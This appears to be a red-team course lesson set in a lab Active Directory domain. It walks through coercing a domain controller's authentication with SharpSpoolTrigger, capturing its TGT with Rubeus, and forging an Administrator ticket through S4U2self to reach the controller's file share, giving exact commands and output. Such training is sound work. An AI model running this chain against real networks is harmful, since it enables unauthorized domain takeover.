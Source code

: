 
In the previous lab on [unconstrained delegation](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=6731fd18dc6d251272081c5f), there was an automated task that had the user _dyork_ interact with the CIFS service on _lon-ws-1_ (e.g. `dir \\lon-ws-1\c$`).  Because this computer was configured for unconstrained delegation, it allowed us to capture their TGT from memory and impersonate them to access the domain controller (since dyork happened to be a domain admin).

In the real world, we're obviously not guaranteed to have a user, let alone a DA, interact with the computer whilst we're monitoring for tickets.  Although there are techniques to harvest them by [seeding](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/) files such as `.lnk`, `.url`, `.library-ms`, and `.searchConnector-ms`, they still rely on user-interaction.  The objective of this lesson is to go after a computer (such as domain controller) directly.

There are multiple 'remote authentication triggers' that can be used to force a computer to authenticate to another computer.  Two popular techniques include Lee Christensen's 'SpoolSample', which uses the Print System Remote Protocol [MS-RPRN]; and Topotam's 'PetitPotam', which uses the Encrypting File System Remote Protocol [MS-EFSRPC].

We could therefore monitor for tickets on lon-ws-1:

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:5 /nowrap
```

Then use a tool such as [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers) to force _lon-dc-1_ to authenticate to _lon-ws-1_.

```powershell
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe lon-dc-1 lon-ws-1

NdrClientCall2x64
[-]RpcRemoteFindFirstPrinterChangeNotificationEx status: 6
```

> The remote authentication trigger should be run as a standard domain user in a medium-integrity context.

Rubeus will then capture the TGT of the targeted computer account.

```powershell
[*] 21/02/2025 11:54:39 UTC - Found new TGT:

  User                  :  LON-DC-1$@CONTOSO.COM
  StartTime             :  21/02/2025 10:39:21
  EndTime               :  21/02/2025 20:38:58
  RenewTill             :  28/02/2025 10:38:58
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFt[...snip...]5DT00=
```

However, if you inject this ticket into a logon session and attempt to access the computer using a service like CIFS, you'll see that it will fail with an 'access denied' error.

```powershell
beacon> run klist

Cached Tickets: (1)

#0>	Client: LON-DC-1$ @ CONTOSO.COM
	Server: krbtgt/CONTOSO.COM @ CONTOSO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize 
	Start Time: 2/21/2025 10:39:21 (local)
	End Time:   2/21/2025 20:38:58 (local)
	Renew Time: 2/28/2025 10:38:58 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 

beacon> ls \\lon-dc-1\c$
[-] could not open \\lon-dc-1\c$\*: 5 - ERROR_ACCESS_DENIED
```

This is because computer accounts do not get local admin access to themselves remotely.  The workaround to compromise any computer once you have its TGT is to use the S4U2self protocol to obtain a usable service ticket for a different (impersonated) user.  I believe this technique was first published by [Elad Shamir](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html) and merged into Rubeus by [Charlie Clark](https://exploit.ph/revisiting-delegate-2-thyself.html).

Charlie added a new `/self` parameter to Rubeus' `s4u` command.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/lon-dc-1 /ticket:doIFt[...snip...]5DT00= /nowrap
```

Where:

- `/impersonateuser` is the user we want to impersonate.
    
- `/self` tells Rubeus not to submit an S4U2proxy request.
    
- `/altservice` is the SPN we want substituted into the service ticket.
    
- `/ticket` is the computer's TGT.

```powershell
[*] Action: S4U

[*] Building S4U2self request for: 'LON-DC-1$@CONTOSO.COM'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Substituting alternative service name 'cifs/lon-dc-1'
[*] Got a TGS for 'Administrator' to 'cifs@CONTOSO.COM'
[*] base64(ticket.kirbi):

      doIF/[...snip...]kYy0x
```

Rubeus performs an S4U2self request exactly as we saw with [constrained delegation](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=6731fd211c053b7aa602ab3b) when 'Kerberos only' is in use, i.e. for the target user where the service is the computer's own SamAccountName (_Administrator@LON-DC-1$_).  This returns a valid service ticket that would normally be used in an S4U2proxy request.  However, we can't do that since there is no constrained delegation here.  Instead, Rubeus simply swaps out the service name for the service specified in the `/altservice` parameter, which in this case becomes _Administrator@cifs/lon-dc-1_.  Again, this works because the CIFS service runs under the context of the computer account (i.e. SYSTEM), so the encrypted part of the ticket can still be decrypted.

```powershell
beacon> run klist

Cached Tickets: (1)

#0>	Client: Administrator @ CONTOSO.COM
	Server: cifs/lon-dc-1 @ CONTOSO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x60a50000 -> forwardable forwarded renewable pre_authent ok_as_delegate name_canonicalize 
	Start Time: 2/21/2025 12:42:53 (local)
	End Time:   2/21/2025 20:38:58 (local)
	Renew Time: 2/28/2025 10:38:58 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0 
	Kdc Called: 

beacon> ls \\lon-dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/24/2025 13:33:39   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     05/08/2021 08:20:24   PerfLogs
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     02/21/2025 11:06:13   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/29/2025 10:42:20   System Volume Information
          dir     01/24/2025 13:33:21   Users
          dir     01/24/2025 13:49:56   Windows
 12kb     fil     02/21/2025 02:38:14   DumpStack.log.tmp
 1gb      fil     02/21/2025 02:38:14   pagefile.sys
```